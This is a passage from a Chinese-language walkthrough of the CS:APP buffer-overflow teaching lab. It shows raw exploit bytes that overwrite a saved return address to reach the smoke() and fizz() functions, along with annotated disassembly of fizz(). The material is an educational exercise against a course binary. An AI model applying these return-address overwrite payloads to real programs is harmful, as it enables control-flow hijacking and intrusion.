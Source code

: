 	```$
	$ xxd exploit-raw.txt
	00000000: 0000 0000 0000 0000 0000 0000 38ba ffff  ................
	00000010: 208e 0408 0a                              ....
	```

	注1: 其实第二组的四个字节可以不用写入 `R[%ebp]` 原来的数据, 因为在执行完 `smoke()` 之后, 直接就调用了 `exit()` 退出程序了, 所以不需要维护原来的栈结构。

	<br>

*	Level1: Sparkler

	本题要求我们通过缓冲区溢出改变进程走向, 进入 `void fizz(int val)` 函数, 同时还要传递参数, 使 `val==cookie`, 

	我们先观察一下 `void fizz(int val)` 的反汇编代码

	```asm
	08048dc0 <fizz>:
	 8048dc0:	55                   	push   %ebp

	 # $esp 此时指向 上一轮的返回地址, 即 $saved_ebp+4, 其内容 M[] 是我们通过缓冲区溢出写入的
	 # $ebp = $esp
	 8048dc1:	89 e5                	mov    %esp,%ebp


	 8048dc3:	53                   	push   %ebx
	 8048dc4:	83 ec 14             	sub    $0x14,%esp

	 # $ebx = M[$ebp+0x08], 即上一轮的返回地址还要向上 +8 的位置
	 8048dc7:	8b 5d 08             	mov    0x8(%ebp),%ebx
	 8048dca:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
	 8048dd1:	e8 ca fb ff ff       	call   80489a0 <entry_check>
	 8048dd6:	3b 1d cc a1 04 08    	cmp    0x804a1cc,%ebx
	 8048ddc:	74 22                	je     8048e00 <fizz+0x40>
	 8048dde:	89 5c 24 04          	mov    %ebx,0x4(%esp)
	 8048de2:	c7 04 24 98 98 04 08 	movl   $0x8049898,(%esp)
	 8048de9:	e8 76 f9 ff ff       	call   8048764 <printf@plt>
	 8048dee:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
	 8048df5:	e8 aa f9 ff ff       	call   80487a4 <exit@plt>
	 8048dfa:	8d b6 00 00 00 00    	lea    0x0(%esi),%esi
	 8048e00:	89 5c 24 04          	mov    %ebx,0x4(%esp)
	 8048e04:	c7 04 24 29 9a 04 08 	movl   $0x8049a29,(%esp)
	 8048e0b:	e8 54 f9 ff ff       	call   8048764 <printf@plt>
	 8048e10:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
	 8048e17:	e8 c4 fc ff ff       	call   8048ae0 <validate>
	 8048e1c:	eb d0                	jmp    8048dee <fizz+0x2e>
	 8048e1e:	89 f6                	mov    %esi,%esi
	```

	首先我们还是通过老办法, 修改返回地址, 从而进入 `fizz()`, 并在入口处设置断点 `b *0x08048dc0`

	```
	# test_Sparkler
	00 00 00 00 00 00 00 00 00 00 00 00 58 ba ff ff c0 8d 04 08
	```
